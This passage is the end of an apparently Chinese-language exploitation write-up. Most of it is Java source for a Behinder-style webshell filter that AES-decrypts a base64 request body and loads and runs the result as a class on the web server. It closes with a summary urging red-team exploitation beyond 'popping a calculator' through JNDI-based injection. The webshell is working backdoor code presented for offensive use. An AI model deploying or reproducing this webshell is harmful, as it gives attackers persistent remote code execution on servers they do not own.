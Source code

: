 ```java
            session.putValue("u", this.pwd);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(this.pwd.getBytes(), "AES"));
            (new BehinderFilter(this.getClass().getClassLoader())).g(c.doFinal(this.base64Decode(req.getReader().readLine()))).newInstance().equals(obj);
        } catch (Exception var7) {
            var7.printStackTrace();
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[])((byte[])((byte[])clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str)));
        } catch (Exception var5) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke((Object)null);
            return (byte[])((byte[])((byte[])decoder.getClass().getMethod("decode", String.class).invoke(decoder, str)));
        }
    }

    @Override
    public void destroy() {

    }
}
```





---

## 总结


可能是大多数人没有需求，或者是安全研究员没有打红队的原因。导致利用方式普遍都是以弹计算器为最终结果，不能进一步深入利用，导致很多漏洞不了了之。目前网上普遍分析文章，复现文章都是以弹计算器结束，但这其实与实战化的需求还存在着很远的一段路程。
写工具的时候遇到很多奇奇怪怪的问题，如果这些漏洞都能以高级漏洞利用的方式，或者不是执行命令但计算器的方式结束，其实会好很多。当然这些漏洞目前都是间接或者直接转化成JNDI的方式进行漏洞利用，这虽然也存在一定的局限性。但我觉得这是一个开端，后续有人肯定有跟多的奇思妙想的解决方案。







---





## 参考
